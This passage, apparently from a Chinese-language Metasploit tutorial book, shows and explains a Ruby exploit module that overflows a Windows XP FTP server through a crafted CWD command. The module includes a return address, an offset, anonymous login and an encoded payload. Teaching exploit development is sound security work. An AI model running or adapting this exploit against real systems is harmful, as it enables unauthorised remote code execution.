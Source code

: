```
          [ 
            'Nipun Jaswal' 
          ], 
      'DefaultOptions' => 
        { 
          'EXITFUNC' => 'process', 
          'VERBOSE'  => true 
        }, 
      'Payload'        => 
        { 
          'Space'   => 1000, 
          'BadChars'  => "\x00\xff\x0a\x0d\x20\x40", 
        }, 
      'Platform'       => 'win', 
      'Targets'        => 
        [ 
          [ 'Windows XP SP2 English', 
            { 
              'Ret' => 0x71ab9372, 
              'Offset' => 2008 
            } 
          ], 
        ], 
      'DisclosureDate' => 'May 9 2016', 
      'DefaultTarget'  => 0)) 
register_options( 
        [ 
                Opt::RPORT(21), 
         OptString.new('FTPPASS', [true, 'FTP Password', 'anonymous']) 
        ]) 
  End 
```

在上一章中，我们处理了许多利用模块。这个利用也不例外。我们首先包含了所有必需的库和`/lib/msf/core/exploit`目录中的`ftp.rb`库。接下来，在`initialize`部分中分配了所有必要的信息。从利用中收集必要的信息后，我们将`Ret`分配为返回地址，并将`Offset`设置为`2008`。我们还将`FTPPASS`选项的值声明为`'anonymous'`。让我们看看下一节代码：

```
def exploit 
    c = connect_login 
    return unless c 
    sploit = rand_text_alpha(target['Offset']) 
    sploit << [target.ret].pack('V') 
    sploit << make_nops(10) 
    sploit << payload.encoded 
    send_cmd( ["CWD " + sploit, false] ) 
    disconnect 
  end 
end 
```

`connect_login`方法将连接到目标并尝试使用我们提供的匿名凭据登录软件。但等等！我们什么时候提供了凭据？模块的`FTPUSER`和`FTPPASS`选项会自动启用，包括 FTP 库。`FTPUSER`的默认值是`anonymous`。但是，对于`FTPPASS`，我们已经在`register_options`中提供了值`anonymous`。
